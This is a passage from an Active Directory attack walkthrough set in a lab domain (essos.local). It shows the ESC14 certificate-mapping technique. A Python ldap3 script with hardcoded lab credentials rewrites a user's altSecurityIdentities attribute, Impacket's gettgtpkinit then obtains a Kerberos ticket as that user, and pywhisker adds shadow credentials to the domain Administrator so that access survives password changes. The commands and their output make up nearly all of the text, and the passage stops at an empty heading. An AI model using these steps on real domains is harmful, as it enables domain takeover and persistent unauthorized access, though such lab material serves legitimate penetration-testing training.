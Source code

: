 ### LDAP Attribute Modification

Script to modify altSecurityIdentities attribute:

```python
import ldap3

dn = "CN=khal.drogo,CN=Users,DC=essos,DC=local"
user = "essos.local\\missandei"
password = "fr3edom"
server = ldap3.Server('meereen.essos.local')
ldap_con = ldap3.Connection(server=server, user=user, password=password, authentication=ldap3.NTLM)
ldap_con.bind()

# Set the certificate mapping
ldap_con.modify(dn, {
    'altSecurityIdentities': [(ldap3.MODIFY_REPLACE, 'X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>110000000000a68816e592b078921100000043')]
})

print(ldap_con.result)
ldap_con.unbind()

# Verify the mapping was set
ldeep ldap -u missandei -d essos.local -p fr3edom -s ldap://192.168.56.12 search '(samaccountname=khal.drogo)' altSecurityIdentities

[{
  "altSecurityIdentities": [
    "X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>110000000000a68816e592b078921100000043"
  ],
  "dn": "CN=khal.drogo,CN=Users,DC=essos,DC=local"
}]

# Authenticate as khal.drogo using our machine certificate!
gettgtpkinit.py -cert-pfx esc14computer.pfx -dc-ip 192.168.56.12 "essos.local/khal.drogo" khal_tgt.ccache

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting TGT for khal.drogo@essos.local using Kerberos PKINIT
[+] TGT request successful!
[*] Saved TGT to khal_tgt.ccache
```

### Advanced Persistence with ESC14

```bash
# ESC14 Persistence - Shadow Credentials for Domain Admin
# Add shadow credentials to Domain Admin account (if we have permissions)
python3 pywhisker.py -d essos.local -u khal.drogo -p horse --target administrator --action add --dc-ip 192.168.56.12

[*] Target user found: CN=Administrator,CN=Users,DC=essos,DC=local
[*] Adding KeyCredential to the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saved certificate to administrator_shadow.crt
[*] Saved private key to administrator_shadow.pem

# This provides persistent access to Domain Admin even after password changes
gettgtpkinit.py -cert-pem administrator_shadow.pem -key-pem administrator_shadow.pem essos.local/administrator admin_shadow.ccache

# ESC14 Advanced Mapping - Multiple Certificate Mappings
# Add multiple certificate mappings for redundancy
```